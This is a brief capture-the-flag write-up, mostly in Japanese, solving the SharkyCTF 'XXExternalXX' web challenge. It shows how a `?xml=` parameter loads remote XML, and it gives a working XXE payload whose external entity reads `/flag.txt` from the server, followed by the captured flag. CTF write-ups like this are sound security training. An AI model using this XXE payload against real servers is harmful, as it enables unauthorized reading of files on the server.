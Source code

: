 # XXExternalXX

```
One of your customer all proud of his new platform asked you to audit it. To show him that you can get information on his server, he hid a file "flag.txt" at the server's root.

xxexternalxx.sharkyctf.xyz

Creator : Remsio
```

## 調査

アクセスすると`Home`と`Show stored data`のリンク。`Home`は`/`に、`Show stored data`は`/?xml=data.xml`に遷移する。  
`xml=適当なurl`に書き換えると、画面では特に変化はないがサーバ側にはアクセスされたログがある。

指定したファイル名かURLが正しい形式のxmlだったら表示されているのかなくらいの予想がつく。  
xmlの形式がわからなくて詰まったが、適当に散策していると`/data.xml`で`data.xml`がみれることに気づいた。

```
<root>
	<data>
		17/09/2019 the platform is now online, the fonctionnalities it contains will be audited by one of our society partenairs
	</data>
</root>
```


後はやるだけ。

## 解

```xml:index.xml
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE foo [
<!ENTITY flag SYSTEM "/flag.txt">
]>
<root>
    <data>&flag;</data>
</root>
```

上のxmlを公開し、`?xml=[url]`にアクセスするとflagが手に入る。

`shkCTF{G3T_XX3D_f5ba4f9f9c9e0f41dd9df266b391447a}`
